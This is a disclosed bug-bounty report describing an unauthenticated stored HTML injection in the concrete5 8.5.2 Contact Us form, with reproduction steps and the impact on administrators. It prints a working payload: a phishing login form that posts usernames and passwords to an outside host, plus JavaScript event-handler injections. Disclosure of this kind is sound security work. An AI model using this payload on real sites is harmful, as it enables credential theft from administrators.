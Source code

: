 # Unauthenticated HTML Injection Stored - ContactUs form

## Report Details
- **Report ID**: 768327
- **URL**: https://hackerone.com/reports/768327
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-05T03:45:56.204Z
- **Disclosed**: 2020-09-25T14:00:58.017Z

## Reporter
- **Username**: javakhishvili
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
Unauthenticated HTML Injection Stored - ContactUs form

• Title: concrete5-8.5.2 HTML Injection Stored - Contact Us form
• Keyword: crayons
• Software : concrete5
• Product Version: 8.5.2
• Vulnerability : HTML Injection Stored
• Vulnerable component: Contact Us form
• Vulnerability : HTML Injection Stored

Concrete5 latest version 8.5.2 suffer from unauthenticated persistent (Stored) HTML injection vulnerabilities.
Insufficient validation of user input on the unauthenticated part of the Concrete5 application exposes the application to Stored HTML Injection vulnerabilities.
These vulnerabilities enable potentially dangerous input from the user to be accepted by the application and then embedded back in the HTML response of the page returned by the web server.

It is clear that a html injection bug exists on the ConcatUs form in the message part, and allows an attacker (public user) to submit contact us form with malicious HTML/JavaScript payload. The message gets sent to Administrator and if the admin click to any parts of the form it will be redirected to malicious site.

 - Steps to reproduce: 
1. Visit contactus form and fill out the form then inject below HTML payload into the Messages (See screenshot 1) F675603
2. Now login as Admin and check 'Waiting for me' messages. Click on contact (See screenshot 2) F675604
3. Once the contact is open you will notice big image embedded and  HTML phishing form for username and password is also embedded and if you click on OK you will be redirected to malicious site (See screenshot 3) F675605




# Malicious HTML Payload here:


   <html><body><head><meta content="text/html; charset=utf-8"></meta></head>
  <div style="text-align: center;"><form Method="POST" Action="http://www.test.com/">
  Phishingpage :<br /><br/>Username :<br /> <input name="User" /><br />Password :<br /> 
  <input name="Password" type="password" /><br /><br /><input name="Valid" value="Ok !" type="submit" />
  <br /></form></div></body></html>
<input><input"/onmouseover="confirm(3333);//"onload=onload><input><innerHTML><img src="https://www.petmd.com/sites/default/files/Acute-Dog-Diarrhea-47066074.jpg" width="1000" height="750" alt="onmouseover=prompt(1);//" /></a></input>

## Impact

It is clear that a html injection bug exists on the ConcatUs form in the message part, and allows an attacker (public user) to submit contact us form with malicious HTML/JavaScript payload. The message gets sent to Administrator and if the admin click to any parts of the form it will be redirected to malicious site.

## Attachments
- 1.png
- 2.png
- 3.png
